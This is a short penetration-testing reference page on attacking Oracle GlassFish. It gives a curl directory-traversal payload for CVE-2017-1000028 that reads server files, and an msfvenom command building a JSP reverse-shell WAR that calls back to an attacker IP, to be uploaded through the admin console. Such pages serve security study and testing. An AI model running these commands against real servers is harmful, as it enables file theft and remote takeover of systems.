




---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---

# GlassFish

[Oracle GlassFish](https://www.oracle.com/middleware/technologies/glassfish-server.html) is an open-source application server developed by Oracle and primarily used for deploying and managing Java-based enterprise applications. It runs across multiple operating systems, including Windows, Linux, and macOS, making it cross-platform. By default, GlassFish listens on TCP port `4848` for its administrative interface, while applications are typically served over HTTP (port `8080`) and HTTPS (port `8181`).

## Unauthenticated LFI

Oracle GlassFish Server Open Source Edition `4.1` is affected by a directory traversal vulnerability ([CVE-2017-1000028](https://nvd.nist.gov/vuln/detail/CVE-2017-1000028)) that can be triggered through both authenticated and unauthenticated requests. The flaw arises because the application fails to properly sanitize user-supplied input when processing HTTP GET requests, allowing attackers to craft malicious requests that traverse outside the intended web root directory. Successful exploitation can expose sensitive files on the server and, depending on the environment, may facilitate further compromise ([PoC](https://www.exploit-db.com/exploits/39441)).


```bash
 curl --path-as-is -s 'http://glassfish-instance:4848/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afwindows/win.ini'
```



Note that the documentation mentions both `glassfish3` and `glassfishv3` for the top directory. In addition, the [online documentation](https://docs.oracle.com/cd/E26576_01/index.html) exists only for `v3`, however a [PDF file](https://docs.huihoo.com/glassfish/4.0/pdf/release-notes.pdf) is available for `v4`.


<figure><figcaption><p><a href="https://docs.oracle.com/cd/E19798-01/821-1751/gjjrl/index.html">https://docs.oracle.com/cd/E19798-01/821-1751/gjjrl/index.html</a></p></figcaption></figure>

<figure><figcaption><p><a href="https://docs.oracle.com/cd/E18930_01/html/821-2416/giubb.html">https://docs.oracle.com/cd/E18930_01/html/821-2416/giubb.html</a></p></figcaption></figure>

<figure><figcaption><p><a href="https://docs.oracle.com/cd/E19798-01/821-1751/ggnqj/index.html">https://docs.oracle.com/cd/E19798-01/821-1751/ggnqj/index.html</a></p></figcaption></figure>

## RCE

If access to the administrative dashboard is available (`4848`), RCE can be gain via leveraging a `.war` file upload:


```bash
# Generate a reverse shell payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.45.241 LPORT=80 -f war -o shell.war
```


Upload and trigger the payload:

<figure><figcaption></figcaption></figure>
